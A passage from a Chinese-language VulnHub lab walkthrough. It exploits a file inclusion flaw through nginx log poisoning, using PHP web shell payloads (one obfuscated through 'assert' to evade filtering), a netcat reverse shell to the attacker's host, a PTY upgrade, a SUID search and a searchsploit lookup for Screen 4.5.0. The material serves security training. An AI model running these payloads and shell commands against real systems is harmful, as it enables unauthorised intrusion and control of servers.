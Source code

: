 很明显存在文件包含漏洞，观察发现可以包含nginx日志文件

![img](/Users/liuhanzhe/Documents/fun_blog/docs/security/target/vulnhub/7.png)

访问显示了日志内容

![image-20211005094438514](/Users/liuhanzhe/Documents/fun_blog/docs/security/target/vulnhub/image-20211005094438514.png)

可以进行日志中毒攻击，使用burp抓包，在 User-Agent: 中添加 payload: `<?php system($_GET['cmd']) ?>`，使用御剑连接失败，换<?php @eval($_POST['hacker']); ?>还是连接失败，怀疑有过滤，继续尝试

```
<?php
     $a = "assert";
     $a($_POST['hacker']);
?>
```

御剑连接成功

下面拿shell，kali运行

```
nc -nlvp 4444
```

使用御剑执行命令

```
nc 172.16.89.2 4444 -e /bin/bash
```

![image-20211005095333369](/Users/liuhanzhe/Documents/fun_blog/docs/security/target/vulnhub/image-20211005095333369.png)

继续执行

```
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

升级shell

## 0x04 提权

找带 suid 的文件

```
find / -perm -u=s 2>/dev/null
```

![img](/Users/liuhanzhe/Documents/fun_blog/docs/security/target/vulnhub/11.png)

在 searchsploit 里找到了一个可以提权的，版本正好是 Screen 4.5.0

```
searchsploit -w screen 4.5.0
```

